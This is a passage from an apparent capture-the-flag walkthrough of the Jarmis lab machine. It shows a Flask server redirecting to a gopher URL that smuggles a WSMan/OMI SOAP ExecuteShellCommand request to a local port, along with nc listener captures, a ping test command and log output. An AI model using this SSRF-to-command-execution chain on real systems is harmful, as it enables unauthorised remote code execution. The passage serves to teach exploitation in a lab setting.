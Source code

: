 

`quote` will URL-encode the string.

I'm still redirecting to myself so I can see what it looks like, and it
looks good:



    oxdf@parrot$ nc -lnvp 5985
    Ncat: Version 7.92 ( https://nmap.org/ncat )
    Ncat: Listening on :::5985
    Ncat: Listening on 0.0.0.0:5985
    Ncat: Connection from 10.10.11.117.
    Ncat: Connection from 10.10.11.117:47688.
    POST / HTTP/1.1
    Host: localhost:5985
    User-Agent: curl/7.74.0
    Content-Length: 1663
    Content-Type: application/soap+xml;charset=UTF-8

    <s:Envelope xmlns:s="http://www.w3.org/2003/05/soap-envelope" xmlns:a="http://schemas.xmlsoap.org/ws/2004/08/addressing" xmlns:h="http://schemas.microsoft.com/wbem/wsman/1/windows/shell" xmlns:n="http://schemas.xmlsoap.org/ws/2004/09/enumeration" xmlns:p="http://schemas.microsoft.com/wbem/wsman/1/wsman.xsd" xmlns:w="http://schemas.dmtf.org/wbem/wsman/1/wsman.xsd" xmlns:xsi="http://www.w3.org/2001/XMLSchema">
    ...[snip]...
          <p:ExecuteShellCommand_INPUT xmlns:p="http://schemas.dmtf.org/wbem/wscim/1/cim-schema/2/SCX_OperatingSystem">
             <p:command>ping -c 1 10.10.14.6</p:command>
             <p:timeout>0</p:timeout>
          </p:ExecuteShellCommand_INPUT>
       </s:Body>
    </s:Envelope>



### Remote

#### Ping

Instead of having it send the request to me, I'll target 5985 on Jarmis:



        return redirect(f'gopher://127.0.0.1:5985/_{enc_req}', code=301)



After saving, I'll send it again. It hits MSF:



    [*] Redirecting client 10.10.11.117 to https://10.10.14.6:8443



Then Flask:



    10.10.11.117 - - [23/Sep/2021 12:05:30] "GET / HTTP/1.1" 301 -
